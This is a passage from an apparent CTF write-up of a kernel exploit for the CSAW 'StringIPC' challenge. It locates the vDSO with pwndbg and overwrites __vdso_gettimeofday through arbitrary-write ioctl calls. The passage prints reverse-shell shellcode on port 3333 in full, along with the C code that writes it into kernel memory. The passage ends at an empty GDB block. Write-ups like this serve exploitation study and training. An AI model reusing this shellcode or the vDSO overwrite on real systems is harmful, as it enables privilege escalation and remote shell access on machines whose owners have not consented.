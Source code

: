 ```
/ $ cat /tmp/kallsyms |grep ffffffff81e04
ffffffff81e04000 d raw_data
```
Because is an ELF the vdso, when we see the string referred to its address we can see:
```
pwndbg> x/s 0xffffffff81e04000
0xffffffff81e04000:	"\177ELF\002\001\001"
```
And we can also make sure to find `__vdso_gettimeofday`:
```
pwndbg> x/s 0xffffffff81e04000+0x2c6
0xffffffff81e042c6:	"__vdso_gettimeofday"
```

## Overwrite `__vdso_gettimeofday`
Now we can use  this [shellcode](https://gist.github.com/itsZN/1ab36391d1849f15b785)
```c
char shellcode[] = "\x90\x53\x48\x31\xC0\xB0\x66\x0F\x05\x48\x31\xDB\x48\x39\xC3\x75\x0F\x48\x31\xC0\xB0\x39\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x09\x5B\x48\x31\xC0\xB0\x60\x0F\x05\xC3\x48\x31\xD2\x6A\x01\x5E\x6A\x02\x5F\x6A\x29\x58\x0F\x05\x48\x97\x50\x48\xB9\xFD\xFF\xF2\xFA\x80\xFF\xFF\xFE\x48\xF7\xD1\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x07\x48\x31\xC0\xB0\xE7\x0F\x05\x90\x6A\x03\x5E\x6A\x21\x58\x48\xFF\xCE\x0F\x05\x75\xF6\x48\x31\xC0\x50\x48\xBB\xD0\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xD3\x53\x48\x89\xE7\x50\x57\x48\x89\xE6\x48\x31\xD2\xB0\x3B\x0F\x05\x48\x31\xC0\xB0\xE7\x0F\x05";
```
The shellcode is a reverse shell on port 3333.
So first of all we need to get the address of 'gettimeofday'
```
pwndbg> x/s 0x7ffff7ffe000
0x7ffff7ffe000:	"\177ELF\002\001\001"
pwndbg> p __vdso_gettimeofday 
$3 = {<text variable, no debug info>} 0x7ffff7ffec80 <gettimeofday>
pwndbg> p/x 0x7ffff7ffec80 - 0x7ffff7ffe000
$4 = 0xc80
```
where the first address is the file base
```
pwndbg> xinfo 0x7ffff7ffe000
Extended information for virtual address 0x7ffff7ffe000:

  Containing mapping:
    0x7ffff7ffe000     0x7ffff7fff000 r-xp     1000      0 /home/kctf/stringipc/stringipc/vd

  Offset information:
         Mapped Area 0x7ffff7ffe000 = 0x7ffff7ffe000 + 0x0
         File (Base) 0x7ffff7ffe000 = 0x7ffff7ffe000 + 0x0
      File (Segment) 0x7ffff7ffe000 = 0x7ffff7ffe000 + 0x0
         File (Disk) 0x7ffff7ffe000 = /home/kctf/stringipc/stringipc/vd + 0x0
```
So to overwrite it we can easily do:
```c
seek_channel.id = id; 
seek_channel.index = vdso -0x10 + 0xc80; // -0x10 is for new_data 
seek_channel.whence= SEEK_SET; 
ioctl(fd,CSAW_SEEK_CHANNEL,&seek_channel); 
struct write_channel_args write_channel;
write_channel.id = id; 
write_channel.buf = shellcode; 
write_channel.count =  strlen (shellcode); 
ioctl(fd,CSAW_WRITE_CHANNEL,&write_channel);
```
We can be sure to have overwritten gettimeofday by checking within gdb the instructions at that address:
GDB:
```
```
